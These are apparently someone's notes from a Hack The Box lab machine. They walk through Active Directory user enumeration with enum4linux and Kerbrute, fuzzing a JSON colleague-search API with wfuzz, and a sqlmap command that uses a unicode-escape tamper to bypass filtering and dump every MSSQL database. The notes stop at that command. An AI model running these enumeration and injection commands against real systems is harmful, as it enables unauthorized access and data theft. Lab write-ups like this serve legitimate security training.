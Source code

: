 
```
enum4linux -a 10.10.10.179
```

```
Domain Name: MEGACORP                                                         
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```


So after adding the IP in the host file got this 
![[Pasted image 20240919042226.png]]


```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```


```
andrew@MEGACORP.LOCAL
james@MEGACORP.LOCAL
Andrew@MEGACORP.LOCAL
dai@MEGACORP.LOCAL
administrator@MEGACORP.LOCAL
alice@MEGACORP.LOCAL
ANDREW@MEGACORP.LOCAL
lana@MEGACORP.LOCAL
Administrator@MEGACORP.LOCAL
rmartin@MEGACORP.LOCAL
pmartin@MEGACORP.LOCAL
```


So we have the users will try the login page now
```
andrew
james
dai
administrator
alice
ANDREW
lana
Administrator
rmartin
pmartin
```


So the login page is a dead end but when i pressed entered in colleague finder look what we got a list of valid users
![[Pasted image 20240919153405.png]]

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
shayna@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
minato@megacorp.htb
egre55@megacorp.htb
```

2024/09/19 15:37:38 >  Done! Tested 17 usernames (14 valid) in 0.816 seconds

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
```

So now i think we can run the sql injection in this as it reminds me of DVWA 

So we technically have 5 fields
![[Pasted image 20240919160202.png]]

```
"id":1,
"name":"Sarina Bauer",
"position":"Junior Developer",
"email":"sbauer@megacorp.htb",
"src":"sbauer.jpg"
```


Let's automate the process and see which payload works and which is not 
```
wfuzz -c -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/SecLists-master/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'
```

![[Pasted image 20240919183727.png]]


So will try ' and it's value is 
```
\u27
```
and guess what we got an error

![[Pasted image 20240919184156.png]]

```
\u0027
```
![[Pasted image 20240919184507.png]]


```
sqlmap -r post_me.txt --tamper=charunicodeescape --delay 3 --level 5 --risk 3 --dbms=mssql -technique=U --batch --dump-all --exclude-sysdbs -v 3
```


